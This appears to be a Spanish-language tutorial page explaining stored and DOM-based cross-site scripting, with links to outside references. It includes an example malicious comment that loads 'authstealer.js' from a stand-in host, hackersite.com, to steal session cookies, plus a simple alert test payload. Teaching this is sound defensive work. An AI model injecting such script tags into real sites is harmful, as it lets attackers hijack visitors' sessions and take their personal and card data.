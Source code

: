 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Stored Cross Site Scripting

Los ataques XSS almacenados o persistentes ocurren cuando un código o script malicioso se almacena permanentemente en un servidor vulnerable o malicioso, utilizando una base de datos.

Las etiquetas incrustadas se convierten en una característica permanente de la página, lo que hace que el navegador las analice con el resto del código fuente cada vez que se abre la página.

El atacante añade el siguiente comentario:  ¡Gran precio por un gran artículo! Lea mi reseña aquí \<script src=”http://hackersite.com/authstealer.js”> \</script> .

A partir de este momento, cada vez que se acceda a la página, la etiqueta HTML en el comentario activará un archivo JavaScript, que está alojado en otro sitio y tiene la capacidad de robar las cookies de sesión de los visitantes.

Al utilizar la cookie de sesión, el atacante puede comprometer la cuenta del visitante, permitiéndole acceder fácilmente a su información personal y a los datos de su tarjeta de crédito. Mientras tanto, el visitante, que tal vez ni siquiera haya bajado a la sección de comentarios, no sabe que se produjo el ataque.

Donde el script se activa después de hacer clic en un enlace, un ataque almacenado sólo requiere que la víctima visite el página web comprometida . Esto aumenta el alcance del ataque, poniendo en peligro a todos los visitantes sin importar su nivel de vigilancia.

Un atacante podría presentar a los usuarios un texto que los persuada a realizar una acción específica, como "su contraseña ha caducado" o "inicie sesión nuevamente". El objetivo del atacante sería redirigir al usuario a otro sitio para robar sus credenciales cuando el usuario intente cambiar la contraseña o iniciar sesión nuevamente en la aplicación falsa.

El modelo de objetos de documento (DOM) es una interfaz de programación de aplicaciones multiplataforma e independiente del lenguaje que trata un documento HTML, XHTML o XML como una estructura de árbol. Los ataques basados ​​en DOM suelen ser ataques XSS reflejados que se activan mediante el envío de un enlace con entradas que se reflejan en el navegador web. En los ataques XSS basados ​​en DOM, la carga útil nunca se envía al servidor.

En un ataque XSS basado en DOM, el atacante envía una URL maliciosa a la víctima y, después de que la víctima hace clic en el enlace, el atacante puede cargar un sitio web malicioso o un sitio que tiene un controlador de ruta DOM vulnerable. Una vez que el navegador representa el sitio vulnerable, la carga útil ejecuta el ataque en el contexto del usuario en ese sitio.

**Ejemplo:**

```
<script>alert(‘XSS’)</script>
```

Aparecera un mensaje de alerta cuando se ejecute.

<mark style="color:red;">**Recursos**</mark>

{% embed url="https://www.imperva.com/learn/application-security/cross-site-scripting-xss-attacks/" %}

{% embed url="https://portswigger.net/web-security/cross-site-scripting/stored" %}

{% embed url="https://portswigger.net/web-security/cross-site-scripting" %}
